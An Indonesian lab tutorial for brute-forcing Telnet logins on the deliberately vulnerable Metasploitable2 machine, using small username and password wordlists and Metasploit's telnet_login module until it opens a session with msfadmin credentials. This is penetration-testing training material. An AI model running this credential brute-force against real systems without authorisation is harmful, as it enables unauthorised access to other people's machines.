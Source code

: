 # Exploit Port 23 (Telnet)
- Buat file dengan nano yang berisi daftar user untuk uji coba
```sh
nano user-metasploitable2.txt
```



- Isi file tersebut dengan daftar user sebagai berikut. Kemudian tekan `Ctrl+o` lalu `enter` untuk menyimpan
```sh
root
admin
msfadmin
administrator
guest
user
test
postgres
oracle
```



- Buat file dengan nano yang berisi daftar password untuk uji coba
```sh
nano password-metasploitable2.txt
```



- Isi file tersebut dengan daftar password sebagai berikut. Kemudian tekan `Ctrl+O` lalu `enter` untuk menyimpan
```sh
qwerty
1234
admin
12345
msfadmin
123123
12345678
```



- Buka msfconsole di terminal
```sh
msfconsole
```



- Cari modul untuk exploit Telnet
```sh
search telnet
```



- Gunakan modul `auxiliary/scanner/telnet/telnet_login` untuk brute force Telnet login yang berada di nomor 34 dari hasil pencarian
```sh
use <nomor_modul>
```



- Tampilkan daftar parameter yang dibutuhkan di modul tersebut
```sh
show options
```



- Isi parameter yang dibutuhkan di modul tersebut
```sh
set RHOST <IP_metasploitable2>
set USER_FILE /home/kali/user-metasploitable2.txt
set PASS_FILE /home/kali/password-metasploitable2.txt
set STOP_ON_SUCCESS true
```



- Setelah pengisian parameter selesai jalankan modul tersebut. Disini kita berhasil login ke telnet dengan username `msfadmin` dan password `msfadmin` yang berada di session 1
```sh
run
```


- Akses session 1
```sh
sessions -i 1
```



- Kita juga bisa login via terminal dengan perintah berikut kemudian masukkan username dan password yang sudah berhasil didapatkan
```sh
telnet <IP_metasploitable2> 23
```

